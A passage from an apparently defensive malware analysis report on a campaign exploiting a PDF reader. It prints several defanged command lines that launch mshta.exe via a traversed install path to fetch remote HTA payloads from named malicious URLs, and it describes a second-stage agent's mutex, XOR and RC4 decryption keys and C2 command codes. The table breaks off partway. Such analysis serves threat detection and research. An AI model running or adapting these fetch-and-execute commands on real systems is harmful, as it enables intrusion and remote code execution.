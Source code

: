 "C:\Program Files (x86)\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe"  "hxxp://www.allamwith[.]com/home/css/skin.html" /print

"C:\Program Files\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe" "hxxp://www.conkorea[.]com/cshop/skin/skin.html" /print




1234567

"C:\Program Files (x86)\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe"  "hxxp://www.jinjinpig.co[.]kr/AnyCss/skin.html" /print "C:\Program Files (x86)\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe" "hxxp://adame.ypelec.co[.]kr/customize/ypelec/images/skin.html" /print "C:\Program Files (x86)\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe"  "hxxp://www.allamwith[.]com/home/css/skin.html" /print "C:\Program Files\Unidocs\ezPDFReader2.0G\..\..\..\Windows\System32\mshta.exe" "hxxp://www.conkorea[.]com/cshop/skin/skin.html" /print




When we analyzed the above malicious URLs, many of the resources had already gone offline, but the attacker is still using one distribution URL: hxxp://www.allamwith[.]com/home/css/skin.html
The URL hosts still serving the HTML Application (HTA) file exhibit similar functions as the HTA file created by the malicious Word document. However, in the case of remotely fetched HTA code with PDF-style attacks, the next payload gets dropped to a different hardcoded path, located at C:/users/public/iexplore.exe, and eventually executed.

Comparison of two HTA files
Second stage payload: Simple agent
The second stage payload is responsible for communicating with the C2 server and preparing another payload for the next stage. This second stage malware decrypts the embedded payload at runtime. It uses an embedded 16-byte XOR key to decrypt the base64 encoded payload. The decrypted payload is another portable executable file that runs in memory.

XOR key and encrypted payload
The infection procedure of the second stage payload:

Create mutex named Microsoft32.
Resolve API address: base64 decoding + RC4 decryption with the key MicrosoftCorporationValidation@#$%^&*()!US
Retrieve C2 addresses: base64 decoding + custom XOR decryption.
Communication with C2.

According to the response from the C2 server, the payload is able to perform five actions:



Identifier
Description
Response message to C2


1111
Set Sleep() interval
1111%d Success!


1234
Execute received data using CreateThread()
1234 Success!
